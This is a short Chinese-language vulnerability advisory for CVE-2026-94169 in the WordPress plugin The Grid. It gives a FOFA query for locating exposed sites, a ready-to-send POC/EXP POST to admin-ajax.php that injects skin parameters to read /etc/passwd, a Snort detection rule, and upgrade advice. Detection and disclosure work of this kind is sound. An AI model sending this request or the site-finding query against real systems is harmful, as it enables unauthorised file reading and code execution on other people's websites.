

# TheGrid admin-ajax存在代码执行漏洞(CVE-2026-94169)

TheGrid admin-ajax存在代码执行漏洞(CVE-2026-94169)，攻击者可获取系统权限。

# 影响版本

TheGrid

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/the-grid/"

POC/EXP：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

action=the_grid_load_more&grid_nonce=invalid&grid_page=1&grid_name=33322211&grid_data[item_number]=1&grid_data[grid_skins][evil][php]=/etc/passwd&grid_data[grid_skins][evil][type]=grid&grid_data[grid_skins][evil][slug]=evil&grid_data[skins]={"post":"evil"}
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"The Grid WordPress - admin-ajax.php the_grid_load_more grid_data skins 代码注入/RCE (CVE-2026-94169)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/wp-admin/admin-ajax.php";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"action=the_grid_load_more";
        content:"grid_data"; distance:0; nocase;
        content:"grid_skins"; distance:0; nocase;
        content:"[php]"; distance:0; nocase;
        content:"[type]"; distance:0; nocase;
        content:"[slug]"; distance:0; nocase;
    metadata:
        service http,
        affected_product "Theme-one The Grid (WordPress plugin) <=2.8.1",
        cve "CVE-2026-94169",
        vulnerability_type "Code Injection / Unauthenticated RCE (CWE-94)",
        severity "critical";
    classtype:web-application-attack;
    sid:1000780;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
